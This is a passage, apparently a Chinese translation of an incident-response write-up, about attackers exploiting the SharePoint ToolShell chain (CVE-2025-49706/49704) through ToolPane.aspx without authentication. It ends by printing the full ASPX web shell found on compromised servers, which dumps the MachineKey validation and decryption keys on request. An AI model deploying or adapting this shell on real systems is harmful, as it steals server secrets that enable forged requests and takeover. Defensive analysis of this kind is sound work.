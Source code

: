   
列中没有包含值，这很奇怪  
  
- 对
```
/_layouts/15/ToolPane.aspx
```

  
的POST请求看起来相当特殊  
…  
  
- 我们感觉凭证从来没有  
被使用过…  
  
攻击者怎么能在**完全没有身份验证**  
的情况下向服务器写入文件呢？  
## ToolShell (CVE-2025-49706 & CVE-2025-49704)  
  
就在这时我们意识到，我们处理的不再是一个简单的基于凭证的入侵。 这不是暴力破解或钓鱼场景。**这是零日漏洞领域的事情。**  
  
经过一些调查，我们了解到三天前，**Code White GmbH**  
的攻击安全团队展示了他们可以重现SharePoint中的未经身份验证的RCE利用链，这是今年5月在Pwn2Own Berlin上展示的两个漏洞的组合：  
- CVE-2025-49706  
  
- CVE-2025-49704  
  
他们将这个链称为**ToolShell**  
。  
  
当时，这被认为是一个概念验证。没有公开代码发布，细节也很稀少。但时间匹配。行为也匹配：
```
/_layouts/15/ToolPane.aspx
```

  
中的漏洞，文件写入，无需登录，完全控制Web应用程序进程。  
  
这不是凭证问题。这是一个已经在野外使用的武器化Pwn2Own漏洞。  
## ASPX载荷：转储加密密钥  
  
当我们的团队开始审查受影响的系统时，我们预期会找到常见的嫌疑对象：用于命令执行、文件上传或横向移动的标准网页木马。相反，我们发现的更微妙，可以说更危险：一个隐秘的
```
.aspx
```

  
文件，其唯一目的是通过简单的GET请求从SharePoint服务器中提取和泄露加密秘密。  

```
<%@ Import Namespace=&#34;System.Diagnostics&#34; %>
<%@ Import Namespace=&#34;System.IO&#34; %>
<script runat=&#34;server&#34; language=&#34;c#&#34; CODEPAGE=&#34;65001&#34;>
    public void Page_load()
    {
  var sy = System.Reflection.Assembly.Load(&#34;System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a&#34;);
        var mkt = sy.GetType(&#34;System.Web.Configuration.MachineKeySection&#34;);
        var gac = mkt.GetMethod(&#34;GetApplicationConfig&#34;, System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);
        var cg = (System.Web.Configuration.MachineKeySection)gac.Invoke(null, new object[0]);
        Response.Write(cg.ValidationKey+&#34;|&#34;+cg.Validation+&#34;|&#34;+cg.DecryptionKey+&#34;|&#34;+cg.Decryption+&#34;|&#34;+cg.CompatibilityMode);
    }
</script>

```
